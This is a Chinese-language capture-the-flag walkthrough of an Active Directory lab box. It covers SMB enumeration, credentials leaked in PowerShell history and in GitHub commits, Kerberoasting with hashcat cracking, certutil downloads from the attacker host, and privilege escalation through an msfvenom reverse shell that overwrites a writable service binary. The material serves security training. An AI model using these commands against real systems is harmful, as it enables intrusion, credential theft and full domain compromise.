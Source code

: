 # Enterprise

难度：难

- Active directory
- Kerberos
- Real world

您刚刚进入内部网络。您扫描网络，只有域控制器...

---

## 端口扫描

循例 nmap扫：nmap -sS -sV 10.10.61.164 -p 1-10000 -T5：

    53/tcp   open  domain        Simple DNS Plus
    80/tcp   open  http          Microsoft IIS httpd 10.0
    88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-01-07 02:54:00Z)
    135/tcp  open  msrpc         Microsoft Windows RPC
    139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
    389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: ENTERPRISE.THM0., Site: Default-First-Site-Name)
    445/tcp  open  microsoft-ds?
    464/tcp  open  kpasswd5?
    593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
    636/tcp  open  tcpwrapped
    3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: ENTERPRISE.THM0., Site: Default-First-Site-Name)
    3269/tcp open  tcpwrapped
    3389/tcp open  ms-wbt-server Microsoft Terminal Services
    5357/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    7990/tcp open  http          Microsoft IIS httpd 10.0
    9389/tcp open  mc-nmf        .NET Message Framing
    Service Info: Host: LAB-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

从扫描结果我们不难看出，域名：

    ENTERPRISE.THM

remmina连接3389，查看证书信息，我们得到：

    LAB-DC.LAB.ENTERPRISE.THM

80、5357都是web，都没有任何信息，7990是一个登录页面

## SMB枚举

    smbclient -L 10.10.61.164

有这么些文件夹：

    ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	Docs            Disk      
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
	Users           Disk      Users Share. Do Not Touch!

Docs目录：

    smbclient //10.10.61.164/Docs                                     127 ⨯ 1 ⚙
    Password for [WORKGROUP\root]:
    Try "help" to get a list of possible commands.
    smb: \> ls
    .                                   D        0  Mon Mar 15 10:47:35 2021
    ..                                  D        0  Mon Mar 15 10:47:35 2021
    RSA-Secured-Credentials.xlsx        A    15360  Mon Mar 15 10:46:54 2021
    RSA-Secured-Document-PII.docx       A    18432  Mon Mar 15 10:45:24 2021

我们发现了powershell的history

    smb: \LAB-ADMIN\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\> ls

    .                                   D        0  Fri Mar 12 12:00:39 2021
    ..                                  D        0  Fri Mar 12 12:00:39 2021
    Consolehost_hisory.txt              A      424  Fri Mar 12 11:51:46 2021

里面披露了一组凭据：

    echo "replication:101RepAdmin123!!">private.txt

经过尝试，这组凭据似乎并不有效

## OSINT

回头来看那个登录页面：

    提醒所有Enterprise-THM员工：
    我们要搬去Github了! 

根据这段话，我们去github搜索：Enterprise-THM

没有找到什么存储库，但是有一个user引起我们的注意：

    Enterprise.THM

该用户的头像跟我们的题目一样，看来没错了

该用户有一个存储库，但是没啥东西。

但是它的People下有一个用户，并且该用户也有一个存储库

    https://github.com/Nik-enterprise-dev/mgmtScript.ps1

这里披露了凭据，但是是空的，我们通过查看github history就可以找到历史提交中存在一组凭据：

    $userName = 'nik'
    $userPassword = 'ToastyBoi!'

利用该账户能够进入smb共享文件夹，但是没啥有用的东西

## Kerberoasting

现在这组凭据确认是有效的，我们现在有资格尝试Kerberoasting攻击：

    python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -dc-ip 10.10.61.164 LAB.ENTERPRISE.THM/nik:ToastyBoi! -request

成功获得bitbucket账户的密码hash:

    ServicePrincipalName  Name       MemberOf                                                     PasswordLastSet             LastLogon                   Delegation 
    --------------------  ---------  -----------------------------------------------------------  --------------------------  --------------------------  ----------
    HTTP/LAB-DC           bitbucket  CN=sensitive-account,CN=Builtin,DC=LAB,DC=ENTERPRISE,DC=THM  2021-03-12 09:20:01.333272  2021-04-26 23:16:41.570158

## hashcat 爆破

将得到的密码hash保存到文件，并使用hashcat进行爆破:

    hashcat -a 0 -m 13100 ./hash /usr/share/wordlists/rockyou.txt

成功获得明文密码：

    littleredbucket

## 上帝封死了门和窗，但上帝也在房间内！

我们尝试使用该账户枚举smb、winrm/psexec登录，都不行，但是rdp却成功了

user.txt在桌面下

现在我们传入WinPEAS.exe和accesschk.exe

    certutil -urlcache -split -f http://10.14.39.48:8000/winPEASx64.exe
    certutil -urlcache -split -f http://10.14.39.48:8000/accesschk64.exe

运行winPEAS，通过winPEAS得知：

    zerotieroneservice - binary path未引号包裹且路径有空格

该服务以system权限运行

    C:\Users\bitbucket>sc qc zerotieroneservice
    [SC] QueryServiceConfig SUCCESS

    SERVICE_NAME: zerotieroneservice
            TYPE               : 10  WIN32_OWN_PROCESS
            START_TYPE         : 2   AUTO_START
            ERROR_CONTROL      : 1   NORMAL
            BINARY_PATH_NAME   : C:\Program Files (x86)\Zero Tier\Zero Tier One\ZeroTier One.exe
            LOAD_ORDER_GROUP   :
            TAG                : 0
            DISPLAY_NAME       : zerotieroneservice
            DEPENDENCIES       :
            SERVICE_START_NAME : LocalSystem

使用accesschk检索：

    PS C:\Users\bitbucket> .\accesschk64.exe -w "C:\Program Files (x86)\Zero Tier\Zero Tier One\ZeroTier One.exe"

    C:\Program Files (x86)\Zero Tier\Zero Tier One\ZeroTier One.exe
    RW BUILTIN\Users
    RW NT AUTHORITY\SYSTEM
    RW BUILTIN\Administrators

我们对该exe文件可读写

    C:\Users\bitbucket>accesschk64 -cv zerotieroneservice

    Accesschk v6.15 - Reports effective permissions for securable objects
    Copyright (C) 2006-2022 Mark Russinovich
    Sysinternals - www.sysinternals.com

    zerotieroneservice
    Medium Mandatory Level (Default) [No-Write-Up]
    R  LAB-ENTERPRISE\bitbucket
            SERVICE_PAUSE_CONTINUE
            SERVICE_START
            SERVICE_STOP
            READ_CONTROL

我们可以控制该服务启动或停止

## Reverse shell

msfvenom生成reverse shell并上传到目标

    msfvenom -p windows/x64/shell_reverse_tcp lhost=10.14.39.48 lport=8888 -f exe-service > she11.exe

使用certutil将文件上传，然后copy到目标目录并覆盖目标exe:

    copy .\she11.exe "C:\Program Files (x86)\Zero Tier\Zero Tier One\ZeroTier One.exe"

在cmd运行：

    sc stop zerotieroneservice
    sc start zerotieroneservice

成功getshell

root.txt在administrator的桌面下
